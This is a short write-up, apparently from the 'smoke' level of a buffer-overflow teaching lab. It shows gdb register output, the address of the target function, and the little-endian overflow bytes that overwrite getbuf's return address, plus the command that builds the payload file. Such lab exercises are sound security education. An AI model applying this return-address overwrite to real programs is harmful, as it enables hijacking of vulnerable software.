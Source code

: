 ## call smoke

(gdb) info registers 
eax            0x3                 3
ecx            0xf7f90e1c          -134672868
edx            0x0                 0
ebx            0x0                 0
esp            0xffffbed0          0xffffbed0
ebp            0xffffbee8          0xffffbee8
esi            0x4                 4
edi            0x804b5c0           134526400
eip            0x8048fe6           0x8048fe6 <getbuf+6>
eflags         0x282               [ SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99

(gdb) p smoke
$1 = {<text variable, no debug info>} 0x8048e20 <smoke>

(gdb) x *(0xffffbee8)
0xffffbf08

(%ebp) = 0xffffbf08
(%ebp+0x4) should be = &smoke

We should consider endian, the overflow hex should be

08bfffff208e0408

./sendstring < smoke.txt > smoke-raw.txt

